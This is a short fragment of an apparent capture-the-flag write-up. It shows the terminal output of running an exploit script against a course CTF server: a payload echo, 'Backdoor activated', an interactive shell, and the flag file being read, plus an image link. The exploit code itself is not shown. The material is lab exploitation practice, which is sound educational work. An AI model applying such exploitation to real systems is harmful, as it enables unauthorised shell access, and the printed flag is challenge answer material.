 ```bash
seed@c92700e7a690:~$ python3 exploit_example.py
[+] Opening connection to ctf-fsi.fe.up.pt on port 4005: Done
[*] Switching to interactive mode
You gave me this:4\xc0
(...)
              804c034Backdoor activated
$ ls
flag.txt
run
$ cat flag.txt
flag{228e12f057040402cc928958a4b823d8}
```

![ctf62_stack.png](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/00554c04-4a5d-471e-936d-5b4314a44212/ctf62_stack.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20211202%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20211202T223931Z&X-Amz-Expires=86400&X-Amz-Signature=ba94e9000b73c3ebeee84a197618b9c7ae4963837347401358e70efd79067e80&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22ctf62_stack.png%22&x-id=GetObject)
